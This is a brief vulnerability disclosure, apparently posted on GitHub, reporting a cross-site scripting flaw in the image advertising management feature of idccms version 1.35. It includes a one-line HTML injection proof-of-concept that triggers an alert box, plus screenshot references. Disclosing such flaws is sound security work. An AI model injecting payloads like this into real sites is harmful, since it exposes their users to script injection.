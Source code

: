 
target:http://idccms.com/
version: V1.35

There is Cross-Site Scripting (XSS)  vulnerability within the 'Image Advertising Management' .

![图片1](1.png)

poc:
```
 "><img src=1 onerror=alert(1)> 
```
successed

![图片](2.png)
